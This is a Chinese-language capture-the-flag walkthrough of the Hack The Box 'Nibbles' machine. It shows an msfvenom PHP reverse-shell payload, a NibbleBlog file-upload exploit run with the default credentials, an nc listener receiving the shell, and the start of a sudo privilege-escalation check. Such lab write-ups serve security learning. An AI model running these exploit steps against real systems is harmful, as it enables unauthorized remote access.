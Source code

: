 # 初始shell
这个payload要使用Metasploit，但是我不想使用这个工具。根据漏洞编号，我在github上找到了[这个python版本的exp](https://github.com/TheRealHetfield/exploits/blob/master/nibbleBlog_fileUpload.py)

按照说明

1. 先编译一个payload,保存在nibble.txt

> msfvenom -p php/reverse_perl --format raw -o nibble.txt LHOST=10.10.14.3 LPORT=4444

2. 修改exp里面的这几行代码，保存
```
nibbleUsername = "admin"
nibblePassword = "nibbles"

nibbleURL = "http://10.10.10.75/nibbleblog/"

```

3. 开启监听
> nc -lnvp 4444

4. 执行攻击
```
┌──(root💀kali)-[~/htb/Nibbles]
└─# python exp.py                                                                                                                                                                                                                                         
[-] LOGIN RESPONSE: 200 OK
[+] Login Successful.
[-] Upload likely successful.
[-] UPLOAD RESPONSE: 200 OK
[+] Exploit launched, check for shell.
[-] EXPLOIT RESPONSE: 200 OK

```

5. 收到反弹shell
```
┌──(root💀kali)-[~/htb/Nibbles]
└─# nc -lnvp 4444                  
listening on [any] 4444 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.75] 37284
id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
whoami
nibbler

```


# 提权

查看sudo特权
```
nibbler@Nibbles:/home$ sudo -l
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

```
